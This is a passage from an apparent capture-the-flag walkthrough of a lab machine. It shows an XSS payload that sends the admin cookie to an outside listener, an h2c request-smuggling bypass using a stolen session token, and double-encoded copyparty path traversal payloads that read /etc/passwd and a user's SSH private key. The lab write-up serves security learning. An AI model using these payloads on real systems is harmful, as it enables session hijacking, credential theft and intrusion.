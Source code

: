    ![bat](https://media.giphy.com/media/a5viI92PAF89q/giphy.gif?cid=790b76118apvzogro2mhx1p0zqxkaveomwhimia0cv0l5zam&ep=v1_gifs_search&rid=giphy.gif&ct=g)

```js
" </script> <script>new Image().src="https://10.10.14.12:8000/?c="+document.cookie;</script>
```
- So I made and used the the above xss payload to get admin cookie which was successful. 
![cookie](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241231003640.png?raw=true)
- Even after including the admin cookie, still haproxy blocking my request to the page `/logs` which was frustrating
![frustrating](https://media.giphy.com/media/4ZrFRwHGl4HTELW801/giphy.gif?cid=790b76112x8olasfzes67tg7z2tgtczzjqoxx5fngotgmp4e&ep=v1_gifs_search&rid=giphy.gif&ct=g)
- I was searching for a tool to bypass this, fortunatly one friend suggested me this great tool called [h2csmuggler](https://github.com/BishopFox/h2csmuggler) and using that tool I was easily able to bypass the 403 of `/logs`
- From the response I got the location of logs files
![logs-location](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241231011017.png?raw=true)
- After hours of checking the logs files, I came to know that it didn't has anything useful, Full of garbage
```bash
h2csmuggler.py -x http://caption.htb:80 -H 'Cookie: session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzM1NDY5NTAzfQ.KlugtV3zNPowolIMi0EUkDB_CFUx0MdmDSkNWEX1KHo' 'http://caption.htb:80/download<redacted>
```
- See it's garbage contents yourselves
![misery](https://media.giphy.com/media/Kpxjiwbtguize/giphy.gif?cid=790b7611r04ss5f643qnyrby6jislfoaenmxjwiz0kebsahl&ep=v1_gifs_search&rid=giphy.gif&ct=g)
![Pasted image 20241231011324.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241231011324.png?raw=true)
- But on visiting the plain url without the logs path it rather reveals something interesting
![Pasted image 20241231011736.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241231011736.png?raw=true)
- These `./cpr` folders are looking interesting aren't they
- Researched about them and found a vulnerability in copyparty, Which includes a path traversal vulnerability on versions 1.8.2
The [POC](https://www.exploit-db.com/exploits/51636) looked like this:
```bash
curl -i -s -k -X  GET 'http://127.0.0.1:3923/.cpr/%2Fetc%2Fpasswd'
```
- The above path also has SSRF vulnerability
## Exploitation
- Using this plainly didn't work for me 
- But with little twerk, actually have to double encode the payload
- This was my initial payload to read `/etc/passwd`
```path
.cpr//etc/passwd
```
- The Final URL encoded payload:
```bash
%2e%63%70%72%2f%25%32%46%65%74%63%25%32%46%70%61%73%73%77%64
```
- As this was working, for SSH access I tried to read `id_rsa` for user margo and got nothing, then after some hours I figured that it's not a RSA key that I should look for...
```bash
/.cpr//home/margo/.ssh/id_ecdsa
```
- Logged in with the key and got the {{< keyword >}}  User flag {{< /keyword >}}
![Pasted image 20241231014758.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241231014758.png?raw=true)
- Don't worry guys we are halfway through
![50%-complete](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExaG94ZjRpeDh4d2Z4ZTExMDQ5aHVuenpjbGRiZzUzb2ZkcjdrcWxlcCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/xUPGcv4cXpq6KNcPEk/giphy.gif)
